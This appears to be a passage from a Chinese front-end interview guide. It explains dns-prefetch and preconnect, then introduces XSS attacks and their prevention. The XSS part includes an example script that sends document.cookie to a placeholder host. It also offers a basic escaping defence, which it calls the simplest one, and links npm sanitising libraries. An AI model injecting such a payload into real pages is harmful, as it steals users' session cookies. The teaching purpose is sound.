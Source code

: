 ### 连环问：dns-prefetch 和 preconnect 有什么作用？

一个 http 请求，第一步就是 DNS 解析得到 IP ，然后进行 TCP 连接。连接成功后再发送请求。

dns-prefetch 即 DNS 预查询，preconnect 即预连接。<br>
当网页请求**第三方**资源时，可以提前进行 DNS 查询、TCP 连接，以减少请求时的时间。

```html
<html>
  <head>
    <link rel="dns-prefetch" href="https://fonts.gstatic.com/" />
    <link rel="preconnect" href="https://fonts.gstatic.com/" crossorigin />
  </head>
  <body>
    <p>hello</p>
  </body>
</html>
```

#### 答案：

- prefetch 是资源预获取（和 preload 相关）
- dnd-prefetch 是 DNS 预查询（和 preconnect 相关）

## 09：前端攻击手段有哪些，该如何预防

### 题目

你所了解的前端攻击手段有哪些，该如何预防？

### XSS

Cross Site Scripting 跨站脚本攻击

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。<br>
该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
  var img = document.createElement('img')
  img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

**最简单的解决方式：替换特殊字符**

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如

- [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)
- [https://www.npmjs.com/package/escape-html](https://www.npmjs.com/package/escape-html)
